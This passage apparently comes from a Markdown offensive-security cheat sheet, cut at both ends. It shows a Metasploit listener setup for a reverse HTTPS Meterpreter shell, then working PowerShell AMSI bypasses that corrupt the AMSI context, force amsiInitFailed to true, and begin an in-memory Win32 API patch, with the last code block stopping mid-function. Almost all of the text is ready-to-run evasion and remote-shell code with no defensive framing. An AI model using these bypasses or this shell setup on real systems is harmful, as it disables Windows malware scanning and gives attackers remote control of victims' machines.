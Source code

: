6\. Run `sudo systemctl restart apache2`. Execute.

7\. Prepare for shell:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```

## Theory
[Word Macro to Powershell](#word-macro-to-powershell)

1\. Corrupt context structure (first 4 bytes AMSI):

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

2\. Attacking initialization(amsiInitFailed set to True):

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*ailed") {$f=$e}};$f.SetValue($null, (1 -eq 1))
```

3\. Win32API to patch AMSI:

```
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

```